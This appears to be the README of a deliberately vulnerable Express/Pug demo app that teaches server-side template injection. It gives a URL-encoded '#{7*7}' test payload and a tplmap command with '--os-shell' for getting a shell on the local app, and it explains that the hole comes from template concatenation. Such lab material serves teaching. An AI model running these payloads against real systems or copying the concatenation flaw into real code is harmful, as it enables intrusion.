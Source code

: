 # Hands-on Express SSTI

This application is a demonstration prototype just to show how to perform SSTI (Server side templating injection) attack. This application use Express and Pug as templating engine. This tutorial is based on https://appsec.amanvir.io/exploring-template-injection

## Setting-up

* Install nodejs

* Install dependencies

```console
$ npm install
```

* Install [tplmap](https://github.com/epinna/tplmap/blob/master/README.md)

```console
$ git clone https://github.com/epinna/tplmap.git
$ cd tplmap
$ virtualenv --python=/usr/bin/python2.7 venv
$ source ./venv/bin/activate
$ pip install -r requirements.txt
```

* Start application

```console
$ node app.js
```

## SSTI attack

* Open http://localhost:3000/?name=bob

* Open http://localhost:3000/?name=%23%7B7*7%7D to test if your application is expose to SSTI (name={7*7})

* Run SSTI attack with [tplmap](https://github.com/epinna/tplmap/blob/master/README.md)

```console
(venv)$ ./tplmap.py --engine pug --os-shell -u http://localhost:3000/?name=bob
```

In this example, the template is built by concatenation instead of using [interpolation](https://pugjs.org/language/interpolation.html) in order to escape data
